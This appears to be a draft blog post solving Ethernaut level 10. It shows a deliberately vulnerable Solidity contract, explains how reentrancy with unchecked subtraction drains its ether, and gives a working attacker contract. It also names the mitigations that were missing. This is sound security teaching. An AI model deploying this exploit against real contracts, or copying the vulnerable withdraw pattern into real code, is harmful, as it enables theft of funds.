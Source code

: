 ################################
Ethernaut 10: Reentrance
################################
:slug: ethernaut-10-reentrance
:date: 2023-07-30
:status: draft
:summary: They're getting less trivial, so let's do one per post so it stays
          readable.
:tags: programming
:author: capu
:featured_image:


Objective
=========
Steal the contract's ether

Code
====

.. code-block:: solidity
   :linenos: inline
   :hl_lines: 20 22 24

    contract Reentrance {
        mapping(address => uint256) public balances;

        function donate(address _to) public payable {
            balances[_to] += msg.value;
        }

        function balanceOf(address _who)
            public view returns (uint256 balance) {
            return balances[_who];
        }

        function withdraw(uint256 _amount) public {
            // We updated this with unchecked so it behaves
            // as per the original code written to be
            // compiled with solidity ^0.6.0 As of ^0.8.0,
            // arithmetic ops will revert on over/underflow
            // On ^0.6.0, it will wrap
            unchecked {
                if (balances[msg.sender] >= _amount) {
                    (bool result,) = msg.sender
                        .call{value: _amount}("");
                    if (result) { _amount; }
                    balances[msg.sender] -= _amount;
                }
            }
        }

        receive() external payable {}
    }

Solution
========
This contract is vulnerable to a reentrancy attack, as the name says 🙃.
and it works as follows:

1. A contract with some balance calls the ``withdraw`` method with a valid
   amount
2. The check on line 20 passes
3. The ``Reentrance`` contract transfers ether to the attacker
4. The attacker's balance hasn't been updated yet
5. This runs the attacker's fallback function
6. The attacker's fallback function calls the ``withdraw`` method again, with
   the same amount.
7. The cycle repeats from step 1.
8. At some point, the attacker decides to stop doing reentrant calls and simply
   returns. Otherwise, it'd spend all the available gas and revert the
   transaction.
9. Since overflows aren't checked, line 24 doesn't revert the transaction
10. All the call frames return and the attacker walks away with all of the
    contract's ether.

This attack it's possible because several mitigations are skipped:

- plenty of gas is forwarded to the withdrawer (although not doing so is `not a
  good mitigation
  <https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now/>`_),
  so an attacker can call back to the ``Reentrance`` contract.
- subtracting ``_amount`` from the caller's balance is done *after* the
  potentially-reentrant call. If it were done *before*, then the first reentrant
  call wouldn't get into the ``if`` in line 20. This mitigation is called
  `Checks-Effects-Interactions
  <https://docs.soliditylang.org/en/latest/security-considerations.html>`_
  pattern. 
- The subtraction in line 24 is allowed to fail silently. Otherwise, the
  transaction would revert and no funds would be stolen.


.. code-block:: solidity
   :linenos: inline

    function solution(address payable target_) internal override{
        Reentrance target = Reentrance(target_);
        Reentrooor reentrooor = new Reentrooor(target);
        reentrooor.deposit{value: 0.001 ether}();
        reentrooor.attack();
    }

.. code-block:: solidity
   :linenos: inline
   :hl_lines: 17

    contract Reentrooor {
        Reentrance private target;
        uint256 private calls = 0;
        constructor(Reentrance _target) {
            target = _target;
        }

        function deposit() public payable {
            target.donate{value: msg.value}(address(this));
        }
        function attack() public {
            target.withdraw(0.001 ether);
        }

        receive() external payable {
            if(calls++ > 2) return;
            target.withdraw(0.001 ether);
        }
    }

😎

Would you find this more fun as a livestream? I think it'd be more fun to see me
try all the wrong solutions than to read a lecture on how a level is solved.

See you next week!
